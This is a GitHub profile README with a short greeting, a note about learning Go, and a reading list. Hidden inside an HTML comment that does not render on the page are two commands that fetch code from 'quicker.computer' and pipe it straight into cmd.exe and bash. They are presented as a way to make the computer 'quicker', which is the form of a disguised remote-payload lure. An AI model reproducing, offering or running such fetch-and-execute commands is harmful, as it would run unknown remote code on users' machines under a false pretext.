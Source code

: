 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currentl Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos.

### Current Books
[Black Hat Go](https://nostarch.com/blackhatgo) \
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)

<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
